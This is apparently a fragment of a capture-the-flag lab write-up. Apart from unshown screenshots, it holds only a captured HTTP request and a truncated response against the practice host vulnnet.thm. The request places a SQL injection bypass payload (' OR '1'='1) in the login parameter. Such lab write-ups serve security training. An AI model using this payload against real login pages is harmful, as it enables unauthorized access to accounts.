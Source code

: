 <img width="1156" height="306" alt="image" src="https://github.com/user-attachments/assets/93998760-d8cc-41ce-b859-9d0dfa44c23d" />

<br>
<br>
<br>

<img width="1135" height="792" alt="image" src="https://github.com/user-attachments/assets/ed2e40ff-9dfe-41bd-86f9-6dd0fb4a96a6" />

<br>
<br>
<br>

<img width="876" height="473" alt="image" src="https://github.com/user-attachments/assets/344f7deb-82c4-4527-8cc6-adbde315dba8" />

<br>
<br>
<br>

<img width="876" height="526" alt="image" src="https://github.com/user-attachments/assets/a726beef-07f3-4537-9bc2-5ffe00abf0c1" />

<br>
<br>
<br>

<img width="876" height="526" alt="image" src="https://github.com/user-attachments/assets/a726beef-07f3-4537-9bc2-5ffe00abf0c1" />

<p><em>Request</em></p>

```bash
GET /login.html?login=%27+OR+%271%27%3D%271&password=password123%40 HTTP/1.1
Host: vulnnet.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://vulnnet.thm/login.html
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

<p><em>Response</em></p>

```bash
HTTP/1.1 200 OK
...
ETag: "9af-*************-gzip"
...
Content-Type: text/html

<!DOCTYPE html>
...
```
